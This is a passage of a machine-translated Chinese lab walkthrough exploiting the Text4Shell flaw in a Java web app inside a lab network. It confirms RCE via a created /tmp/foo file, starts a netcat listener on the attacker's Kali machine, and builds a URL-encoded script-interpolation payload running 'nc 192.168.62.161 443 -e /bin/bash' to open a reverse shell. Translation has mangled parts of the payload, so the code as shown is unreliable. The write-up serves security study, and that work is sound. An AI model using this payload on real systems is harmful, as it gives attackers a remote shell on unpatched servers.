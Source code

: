 ```
docker exec -it 4bc32732e273 bash
```

![](img/a04e58327cf99ae46c102f026c9f65a9.png)

13.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

检查 RCE 是否成功。(您应该会看到在/tmp 目录中创建了一个名为 foo 的文件):

ls /tmp

![](img/a31883d92542f99f62bef876c94489c5.png)

我们有文件夹/tmp/foo！RCE 成功了。

我们有一个文件夹叫‘Foo’，RCE 很成功。

**用攻击者的机器设置一个反向外壳**

我们很幸运地在应用程序 docker 容器中找到了 netcat。我们可以使用本地 netcat 版本来设置一个反向 shell。

14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

设置 netcat 监听器。

```
rlwrap nc -nlvp 443
```

![](img/4c66469913f6a6b94a0e7316f9e97ba0.png)

15.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

构建有效载荷:

$ { script:JavaScript:Java . lang . runtime . get runtime()。' exec ' NC 192 . 168 . 62 . 161 443-e/bin/bash ')}

重要:上面的字符串包含:"。执行 nc。这是不正确的，一定是”。exec**(**‘NC’。由于 Medium.com 输入验证，不可能使用“.执行(“nc”)。手动添加缺少的“(”。

有效负载的 URL 编码

```
[http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.**exec%27**nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D](http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27%27nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D)
```
